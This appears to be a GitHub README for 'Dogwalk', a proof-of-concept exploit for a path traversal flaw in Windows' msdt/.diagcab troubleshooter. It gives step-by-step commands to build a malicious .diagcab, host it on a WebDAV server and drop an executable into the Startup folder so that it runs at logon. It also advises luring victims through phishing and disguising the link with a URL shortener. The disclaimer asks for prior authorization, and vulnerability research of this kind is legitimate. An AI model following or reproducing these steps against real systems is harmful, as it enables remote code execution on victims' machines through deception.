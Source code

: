 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC allows an attacker to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div>

* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)
* [📺 Show Me](#%EF%B8%8F-wait-and-see)

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.<br>
You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)<br>
The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!




## How it works?

The Proof-of-Concept sets up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user starts the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

<sup>*(💡 use `Content-type: application/octet-stream` response header to make the Browser automaticaly downloading the file when browsing the url)*</sup>

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)*** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

If you are too lazy (or in a hurry) to proceed step-by-steps:
```shell
./hurry-dogwalk.sh [WEBDAV_URL]         # need docker
# Stop the server
./hurry-dogwalk.sh --clean
```

Otherwise ↓↓

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

Finally, move it in the `./webdav/diagcab-webdav-poc/config` directory

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` directory... <sup>*(Here we use the classic `calc.exe`)*</sup>

...And launch the server:
```
cd ./webdav/diagcab-webdav-poc/
perl diagcab-webdav-poc.pl
```

The malicious `.diagcab` is available at `https://[WEBDAV_URL]/config/hotfix895214.diagcab`. You now have to lure a victim to click on this link.

<sup>*(💡you can use URL shortener to make it appears less suspicious)*</sup>

### 👁️ Wait and see

<details>
<summary><b>Dogwalk set up</b></summary>
<div align=center>
<img src=https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_setup.gif>
</div>
<i>
<br> 💡 Test curl with ngrok url before: if it waits indefinitely, type the url manually instead (when copy/paste url from ngrok panel, it could add some invisible characters)</i>
<br> 💡 Sometimes <code>ngrok</code> is simply blocked ~> use <a href=https://github.com/localtunnel/localtunnel><code>localtunnel</code></a> or <code>cloudfared tunnel</code> instead. (or your own domain)</i>
</details>

🐾🐾

![demo](https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_exploit.gif)

